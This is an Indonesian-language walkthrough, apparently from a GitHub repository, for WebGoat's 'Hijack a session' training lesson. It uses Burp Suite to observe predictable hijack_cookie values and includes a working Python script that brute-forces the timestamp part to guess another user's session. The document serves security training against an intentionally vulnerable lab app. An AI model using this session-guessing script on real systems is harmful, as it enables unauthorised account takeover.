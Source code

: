 # Hijack a session
Pengembang aplikasi yang mengembangkan ID sesi mereka sendiri sering lupa untuk memasukkan kompleksitas dan keacakan yang diperlukan untuk keamanan. Jika ID sesi khusus pengguna tidak rumit dan acak, maka aplikasi tersebut sangat rentan terhadap serangan brute force berbasis sesi.

- Hidupkan tool Burp Suite terlebih dahulu, lalu akses halaman `http://<IP_Server>:8080/WebGoat/start.mvc?username=testing#lesson/HijackSession.lesson/1` kemudian masukkan username `tom` dan password `tom` lalu tekan tombol **Access**. Anda juga bisa memasukkan username dan password secara bebas sesuai keinginan anda

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/hijack%20session/hs%201.JPG)

- Buka tool Burp Suite, maka terdapat terdapat request yang mengarah ke path URL `/WebGoat/HijackSession/login` bertipe `POST`

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/hijack%20session/hs%202.JPG)

- Klik kanan request tersebut lalu pilih **Send to Repeater**

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/hijack%20session/hs%203.JPG)

- Pindah ke tab Repeater dan klik tombol **Send**

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/hijack%20session/hs%204.JPG)

- Tekan tombol **Send** berulang kali sambil mengamati pola perubahan nilai pada `hijack_cookie`

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/hijack%20session/hs%205.JPG)

- Selama percobaan diatas kita mencatat perubahan nilai `hijack_cookie` sebagai berikut
```sh
6096954623810981710-1718181739783
6096954623810981712-1718181785192
6096954623810981713-1718181801395
6096954623810981714-1718181818085
```
- Seperti yang kita ketahui bahwa nilai `hijack_cookie` terdiri dari `nomor urut-unix time`. Nomor urut tersebut bertambah 1 untuk setiap pengulangan request. Ada juga yang langsung bertambah 2. Jika bertambah 2 maka kemungkinan nilai `hijack_cookie` sebelumnya sudah terbentuk karena sudah melakukan login terlebih dahulu. Untuk nilai unix time akan muncul sesuai waktu user melakukan login sehingga kita perlu melakukan brute force untuk menemukan waktu login yang sesuai dengan user tersebut. Berdasarkan daftar diatas, kemungkinan nomor urut user anonim adalah `6096954623810981711` lalu untuk unix time berada di rentang `1718181739783` hingga `1718181785192`. Disini kita menggunakan program python untuk melakukan brute force dengan source code sebagai berikut:
```sh
import requests

url = 'http://IP_Server:8080' #ubah url sesuai url server anda

headers = {
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0',
    'Accept': '*/*',
    'Accept-Language': 'en-US,en;q=0.5',
    'Accept-Encoding': 'gzip, deflate',
    'Referer': url+'/WebGoat/start.mvc?username=testing',
    'Origin': url,
    'Connection': 'close',
    'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
    'X-Requested-With': 'XMLHttpRequest',
    'Cache-Control': 'no-cache',
    'Pragma': 'no-cache'
}
#ubah sesuai username dan password yang anda gunakan
form_data = {
    'username':'xxx',
    'password':'xxx'
}

step = 1
#ubah rentang sesuai unix time di Burp Suite anda
for i in range(39782, 85193):
	#ubah sesuai nilai yang tampil pada Burp Suite anda
	hijack_cookie = '6096954623810981711-17181817'+str(i)
	#ubah nilai JSESSIONID sesuai nilai JSESSIONID yang muncul di Burp Suite anda
	headers.update({'Cookie': 'JSESSIONID=xxx; hijack_cookie='+hijack_cookie})
	response = requests.post(url+'/WebGoat/HijackSession/login', data=form_data, headers=headers)
	if 'false' in response.text:
		json_response = response.json()
		print('{} feedback: {}'.format(step, json_response['feedback']))
		response.close()
	else:
		print('hijack_cookie'+hijack_cookie)
		print(response.text)
		response.close()
		break
	step+=1

```
- Simpan source diatas dengan nama `hijack_session.py` lalu jalankan program diatas
```sh
python3 hijack_session.py
```

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/hijack%20session/hs%206.JPG)

- Jika percobaan diatas belum berhasil, anda perlu mengganti nomor urut dan rentang unix time lainnya hingga menemukan hasil yang sesuai